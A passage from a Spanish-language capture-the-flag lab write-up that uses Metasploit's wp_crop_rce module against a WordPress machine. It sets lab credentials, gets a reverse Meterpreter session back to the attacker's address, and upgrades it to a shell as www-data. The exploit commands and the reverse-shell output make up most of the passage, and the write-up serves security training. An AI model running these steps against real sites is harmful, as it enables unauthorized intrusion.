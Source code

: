 Para explotar la vulnerabilidad correctamente, es necesario configurar las siguientes opciones:

1. **PASSWORD**: Especifica la contraseña del usuario que será utilizada para acceder al sistema objetivo.
2. **RHOSTS**: Representa la dirección IP de la máquina destino (Remote Hosts). 
3. **USERNAME**: Indica el nombre de usuario que se utilizará para autenticarse en el sistema objetivo.
4. **LHOST**: La dirección IP de la máquina atacante (Local Host). 

```bash
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS 10.10.84.224
RHOSTS => 10.10.84.224
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set LHOST 10.2.11.100
LHOST => 10.2.11.100
```

Una vez que hayamos configurado las opciones necesarias, procedemos a ejecutar el comando "`exploit`" para dar inicio al ataque.

```bash
msf6 exploit(multi/http/wp_crop_rce) > exploit 

[*] Started reverse TCP handler on 10.2.11.100:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.84.224
[*] Meterpreter session 1 opened (10.2.11.100:4444 -> 10.10.84.224:49774) at 2023-06-15 22:41:34 -0500
[*] Attempting to clean up files...

meterpreter > getuid 
Server username: www-data
```

Después de realizar el ataque con éxito, hemos obtenido una sesión Meterpreter. A continuación, ejecutamos el comando "`shell`" para obtener una shell convencional.

```bash
meterpreter > shell
Process 1760 created.
Channel 1 created.
whoami
www-data
```

Luego ejecutamos el comando `script /dev/null -c bash` para iniciar una nueva sesión de bash con un terminal virtual (pty). 
